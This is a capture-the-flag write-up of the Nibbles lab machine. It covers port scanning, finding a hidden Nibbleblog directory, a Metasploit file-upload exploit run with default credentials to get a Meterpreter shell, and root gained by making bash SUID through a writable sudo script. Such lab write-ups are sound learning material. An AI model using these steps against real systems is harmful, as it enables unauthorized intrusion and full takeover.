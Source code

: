 # Nibbles

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.144    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 11:33 EDT
Nmap scan report for 10.129.85.144
Host is up (0.0093s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### NIbbleblog RCE

Visiting port 80 reveals nothing, until you read the comments:

```markup
$ curl http://10.129.85.144/                
<b>Hello world!</b>














<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

<figure><img src="../../../.gitbook/assets/image (251).png" alt=""><figcaption></figcaption></figure>

Based on the Nibbleblog Github Repo (which is no longer continued), I found that we can access `/README` to view the version used.

```
$ curl http://10.129.85.144/nibbleblog/README
====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01
<TRUNCATED>
```

There are RCE exploits for this, and I'm going to use`msfconsole` to exploit it. In specific, I want to use the `multi/http/nibbleblog_file_upload` module.&#x20;

```
set RHOSTS <ip>
set LHOST <my ip>
set TARGETURI /nibbleblog
set USERNAME admin # default creds
set PASSWORD nibbles # default creds
exploit
```

This would spawn us a Meterpreter shell.

<figure><img src="../../../.gitbook/assets/image (488).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Writeable Sudo Script

We can check `sudo` privileges:

```
nibbler@Nibbles:/home/nibbler$ sudo -l
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

There is no script there, so we can create our own that makes `/bin/bash` an SUID binary.

```
$ sudo /home/nibbler/personal/stuff/monitor.sh             
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1037528 May 16  2017 /bin/bash
```

Then, we can easily get `root`.&#x20;

<figure><img src="../../../.gitbook/assets/image (241).png" alt=""><figcaption></figcaption></figure>

